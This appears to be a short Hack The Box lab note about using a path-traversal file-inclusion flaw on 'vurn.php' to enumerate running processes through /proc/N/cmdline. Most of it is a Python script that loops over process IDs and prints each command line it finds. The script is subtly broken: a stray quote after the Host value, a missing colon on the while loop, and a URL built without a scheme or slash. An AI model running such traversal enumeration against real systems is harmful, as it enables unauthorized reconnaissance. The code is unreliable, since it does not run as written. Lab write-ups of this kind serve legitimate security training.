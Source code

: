 ### Hack The Box - path-traversal - enumuration over /proc/(number)/cmdline

/proc/(number)/cmdline - this path can be very helpful wehn you havnt yet got terminal access to a box, it may be possible to see processes that are running on the box with local file inclusion if the vurnrability exists on the box.
  
### proc_cmdline.py
  
```python
import requests

host = "test.htb"
path = host + "vurn.php?img=../../../../../../../../../"

headers = {
    'Host': host',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

i=1
while i < 10000
    response = requests.get(path + 'proc/'+str(i)+'/cmdline',headers=headers,verify=False,)
    if response.text:
        print (str(i),response.text)
    i = i + 1  
```
